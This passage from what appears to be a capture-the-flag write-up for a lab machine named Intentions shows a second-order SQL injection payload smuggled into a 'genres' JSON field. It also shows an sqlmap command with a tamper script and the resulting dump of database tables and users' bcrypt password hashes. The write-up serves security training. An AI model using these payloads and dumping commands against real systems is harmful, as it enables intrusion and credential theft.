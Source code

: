 ```
    Payload: {"genres":"food,travel,nature') UNION ALL SELECT NULL,CONCAT(0x716b767671,0x736f6e536e4368556659467759684c574d455759615a5663427247796a62596547774d786a444c5a,0x71626b7171),NULL,NULL,NULL#"}
---
```

Using this, we can attempt to enumerate the database:

```
available databases [2]:
[*] information_schema
[*] intentions

Database: intentions
[4 tables]
+------------------------+
| gallery_images         |
| migrations             |
| personal_access_tokens |
| users                  |
+------------------------+

Table: users
[8 columns]
+------------+---------------------+
| Column     | Type                |
+------------+---------------------+
| admin      | int(11)             |
| created_at | timestamp           |
| email      | varchar(255)        |
| genres     | text                |
| id         | bigint(20) unsigned |
| name       | varchar(255)        |
| password   | varchar(255)        |
| updated_at | timestamp           |
+------------+---------------------+
```

Afterwards, the hashes for the users can be found:

```
$ sqlmap -r req --tamper=space2comment --batch --second-req req2 -D intentions -T users --dump
+----+--------------------------+-------+-------------------------------+---------------------------+--------------------------------------------------------------+---------------------+---------------------+
| id | name                     | admin | email                         | genres                    | password                                                     | created_at          | updated_at          |
+----+--------------------------+-------+-------------------------------+---------------------------+--------------------------------------------------------------+---------------------+---------------------+
| 1  | steve                    | 1     | steve@intentions.htb          | food,travel,nature        | $2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa | 2023-02-02 17:43:00 | 2023-02-02 17:43:00 |
| 2  | greg                     | 1     | greg@intentions.htb           | food,travel,nature        | $2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m | 2023-02-02 17:44:11 | 2023-02-02 17:44:11 |
| 3  | Melisa Runolfsson        | 0     | hettie.rutherford@example.org | food,travel,nature        | $2y$10$bymjBxAEluQZEc1O7r1h3OdmlHJpTFJ6CqL1x2ZfQ3paSf509bUJ6 | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
| 4  | Camren Ullrich           | 0     | nader.alva@example.org        | food,travel,nature        | $2y$10$WkBf7NFjzE5GI5SP7hB5/uA9Bi/BmoNFIUfhBye4gUql/JIc/GTE2 | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
```